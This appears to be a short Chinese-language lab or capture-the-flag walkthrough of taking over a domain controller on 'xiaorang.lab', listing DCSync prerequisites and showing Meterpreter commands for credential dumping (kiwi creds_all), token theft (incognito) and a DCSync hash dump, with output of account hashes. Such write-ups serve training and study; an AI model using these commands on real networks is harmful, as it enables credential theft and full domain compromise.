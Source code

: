 ### Dsync 攻击拿下域控

```plain
DCSync 攻击前提
一个用户想发起 DCSync 攻击，必须获得以下任一用户的权限：

•Administrators 组内的用户
•Domain Admins 组内的用户
•Enterprise Admins 组内的用户
•域控制器的计算机帐户

即：默认情况下域管理员组具有该权限。
机器拥有机器有 DCSync 的权限，
```

利用 `proxychains` + `msfconsole` 拿下永恒之蓝主机  
收集 Windows 的`凭据`

```plain
## 获取凭据
load kiwi
creds_all

# 令牌偷取
load incognito
list_tokens -u
```

[![](assets/1710899037-5548a24194323fbb2805e9bb8122fb6d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240227205401-47a9e594-d56f-1.png)

`DCSync` 获取域控

```plain
meterpreter > kiwi_cmd lsadump::dcsync /domain:xiaorang.lab /all /csv
[DC] 'xiaorang.lab' will be the domain
[DC] 'DC01.xiaorang.lab' will be the DC server
[DC] Exporting domain 'xiaorang.lab'
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)
500     Administrator   10cf89a850fb1cdbe6bb432b859164c8        512
502     krbtgt  fb812eea13a18b7fcdb8e6d67ddc205b        514
1106    Marcus  e07510a4284b3c97c8e7dee970918c5c        512
1107    Charles f6a9881cd5ae709abb4ac9ab87f24617        512
1000    DC01$   edc506302bf9b040febfb84a1459c0e8        532480
1104    XIAORANG-OA01$  673ec2d0ad2f73341c4b3e1fc2fbade5        4096
```